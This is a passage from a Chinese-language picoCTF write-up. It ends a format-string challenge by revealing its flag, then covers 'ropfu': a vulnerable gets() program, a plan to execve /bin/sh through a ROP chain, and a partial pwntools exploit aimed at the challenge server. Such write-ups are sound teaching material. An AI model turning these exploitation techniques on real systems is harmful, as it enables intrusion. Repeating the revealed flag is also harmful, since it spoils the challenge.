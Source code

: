 ```C
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

这是一个格式化字符串漏洞，通过gdb调试发现偏移为24的地方留有flag的地址+4。flag前面4个字符已知，因此直接打印这个地址对应的值即可。

picoCTF{L34k1ng_Fl4g_0ff_St4ck_0551082c}

## 10. ropfu

典型ROP攻击。

源码：

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

能够在程序中找到大量的rop材料，但还需要一个/bin/sh字符串。需要首先调用库函数将/bin/sh写入bss段，然后再系统调用execve来getshell。具体一些，execve的系统调用需要eax=0xB，ebx=read_addr，ecx=0，edx=0。

payload：
```python
from pwn import *
context.log_level = 'debug'

# io = process('./vuln')
io = remote('saturn.picoctf.net', 53996)
elf = ELF('./vuln')

sh_addr = next(elf.search(b'sh\0'))		# 'sh' addr, need to make ebx point to it
sys_execve = 0xb						# need to make eax be 0xb

pop_eax_addr = 0x80b074a
pop_ebx_addr = 0x8049022
pop_ecx_addr = 0x8049e39
pop_edx_ebx_addr = 0x80583c9
```